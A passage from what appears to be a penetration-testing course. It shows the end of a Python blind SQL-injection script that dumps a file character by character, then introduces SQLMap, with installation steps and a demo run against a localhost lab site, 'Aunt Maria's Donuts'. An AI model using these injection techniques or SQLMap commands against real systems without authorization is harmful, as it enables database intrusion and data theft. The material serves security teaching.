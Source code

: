 ```python
            high = mid -1
        else:
            low = mid + 1
    print(chr(low), end='')
    sys.stdout.flush()
print()

```

Running this script should result in the target file being dumped. Of course, this may take some time to run.

```shell
python3 fileRead.py
[*] File length = 37
[*] File = <SNIP>

```


# Tools of the Trade

## SQLMap

[SQLMap](https://sqlmap.org/) is a very popular open-source pen-testing tool that automates the discovery and exploitation of SQL injections for many databases, including `MSSQL`.

#### Installation

SQLMap is a Python tool that can run on Windows, Linux, or macOS. It comes preinstalled on some distributions of Linux, such as `Kali` or `ParrotOS`.

To install SQLMap, you simply:

1. Download the latest version from the GitHub [releases](https://github.com/sqlmapproject/sqlmap/releases) page.
2. Unzip the archive
3. Enter the directory and run `python3 sqlmap.py`

#### Example: Aunt Maria's Donuts

To demonstrate the power of SQLMap, we will redo the `boolean-blind SQLi` attack on `Aunt Maria's Donuts`. First, we will run SQLMap against the `api/check-username.php` endpoint which we suspect/know is vulnerable to SQL injection.

```powershell
PS C:\htb> python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.6.12#dev}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and
are not responsible for any misuse or damage caused by this program

[*] starting @ 17:44:16 /2022-12-12/

[17:44:16] [INFO] testing connection to the target URL
[17:44:16] [INFO] testing if the target URL content is stable

<SNIP>

```